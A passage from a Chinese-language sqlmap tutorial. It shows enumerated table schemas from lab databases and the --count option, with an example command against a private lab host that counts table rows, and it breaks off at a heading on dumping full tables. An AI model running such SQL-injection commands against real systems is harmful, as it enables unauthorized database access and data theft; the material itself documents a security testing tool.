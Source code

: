 ```
| cid          | int(11)  |
| comment      | text     |
+--------------+----------+

Database: owasp10
Table: hitlog
[6 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| date     | datetime |
| browser  | text     |
| cid      | int(11)  |
| hostname | text     |
| ip       | text     |
| referer  | text     |
+----------+----------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...]
```

### 获取表中数据个数

参数：–count

有时候用户只想获取表中的数据个数而不是具体的内容，那么就可以使用这个参数。

列举一个Microsoft SQL Server例子：

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table          | Entries |
+----------------+---------+
| dbo.users      | 4       |
| dbo.users_blob | 2       |
+----------------+---------+
```

### 获取整个表的数据
